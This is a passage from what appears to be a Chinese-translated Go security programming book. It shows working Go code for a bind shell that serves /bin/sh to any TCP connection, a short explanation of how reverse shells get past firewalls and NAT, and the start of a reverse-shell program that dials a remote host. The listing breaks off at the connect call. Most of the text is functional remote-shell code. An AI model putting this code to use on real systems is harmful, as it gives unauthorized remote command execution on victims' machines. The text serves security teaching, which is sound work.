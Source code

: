 ```go
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Now listening for connections.")

   // Listen and serve shells forever
   for {
      conn, err := listener.Accept()
      if err != nil {
         log.Println("Error accepting connection. ", err)
      }
      go handleConnection(conn)
   }

}

// This function gets executed in a thread for each incoming connection
func handleConnection(conn net.Conn) {
   log.Printf("Connection received from %s. Opening shell.", 
   conn.RemoteAddr())
   conn.Write([]byte("Connection established. Opening shell.\n"))

   // Use the reader/writer interface to connect the pipes
   command := exec.Command(shell)
   command.Stdin = conn
   command.Stdout = conn
   command.Stderr = conn
   command.Run()

   log.Printf("Shell ended for %s", conn.RemoteAddr())
} 
```

# 创建反向绑定 shell

反向绑定 shell 克服了防火墙和 NAT 的问题。它不是监听传入连接，而是向远程服务器（你控制并监听的服务器）拨号。当你在自己的机器上收到连接时，你就有了一个在防火墙后面的计算机上运行的 shell。

这个示例使用明文 TCP 套接字，但你可以很容易地用`tls.Dial()`替换`net.Dial()`。第六章，*密码学*，有 TLS 客户端和服务器的示例，如果你想修改这些示例来使用 TLS。

```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) < 2 {
      fmt.Println("Usage: " + os.Args[0] + " <remoteAddress>")
      fmt.Println("Example: " + os.Args[0] + " 192.168.0.27:9999")
      os.Exit(1)
   }

   // Connect to remote listener
   remoteConn, err := net.Dial("tcp", os.Args[1])
```